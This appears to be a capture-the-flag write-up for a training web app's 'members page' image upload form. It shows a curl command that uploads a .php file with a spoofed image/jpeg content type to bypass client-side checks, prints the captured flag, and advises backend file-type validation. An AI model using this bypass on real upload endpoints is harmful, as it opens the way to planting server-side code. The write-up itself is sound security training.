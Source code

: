 # MEMBERS PAGE

## Explanations

We found a page to upload files. And after testing multiple files, it seems to only accept images.

Here is the HTML code:
```html
<form enctype="multipart/form-data" action="#" method="POST">
	<input type="hidden" name="MAX_FILE_SIZE" value="100000">
	Choose an image to upload:
	<br>
	<input name="uploaded" type="file"><br>
	<br>
	<input type="submit" name="Upload" value="Upload">
</form>
```

The interesting thing is that we have 2 inputs (`uploaded` & `Upload`), the first one letting us upload a file (an image if we deduce from our previous tests).  
It seems like we could "trick" this form by uploading any file we want and just let him think that the type is an image.

And here comes `curl` that can permit us to POST any file. Let's create en empty malicious file and trick the form:
```
> touch /tmp/malicious.php
> curl -s -X POST -F "uploaded=@/tmp/malicious.php;type=image/jpeg" -F "Upload=Upload" "http://<IP>/index.php?page=upload"
```

Bingo, we finally get our flag !
```html
<center><h2 style="margin-top:50px;">The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center>
```

---

## How to avoid that security breach ?

Simply just do your "file type" checking on the backend and not on the front. It is always good that we do not get a corrupted file !

---

#### Sources

- [curl -F flag](https://curl.se/docs/manpage.html#-F)
